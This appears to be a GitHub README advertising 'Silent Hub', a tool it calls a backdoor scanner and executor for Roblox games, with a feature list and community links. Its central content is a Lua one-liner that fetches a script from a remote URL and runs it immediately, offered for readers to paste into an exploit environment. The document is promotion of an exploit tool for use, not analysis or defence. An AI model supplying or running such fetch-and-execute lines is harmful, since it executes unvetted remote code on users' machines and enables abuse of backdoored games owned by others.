

# Silent Hub Backdoor Scanner

The BEST Backdoor Scanner/Executor for Roblox games!
```lua
loadstring(game:HttpGet("https://raw.githubusercontent.com/hyperionhax/Silent-Hub/main/SilentHub"))()
```


<div style="left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.25%;"><iframe src="https://www.youtube.com/embed/vYH76vFOIIA?rel=0" style="top: 0; left: 0; width: 100%; height: 100%; position: absolute; border: 0;" allowfullscreen scrolling="no" allow="accelerometer *; clipboard-write *; encrypted-media *; gyroscope *; picture-in-picture *; web-share *;" referrerpolicy="strict-origin"></iframe></div>

# Features
- Flat, customizable UI
- Built-in Script Hub
- Script Conversion

# Contact 
Have any suggestions? join our server for scripts, giveaways, and more!
<br></br>
<a href="https://dsc.gg/teamc00lkidd"> </a>
<a href="https://roblox.com/groups/34005867"></a>
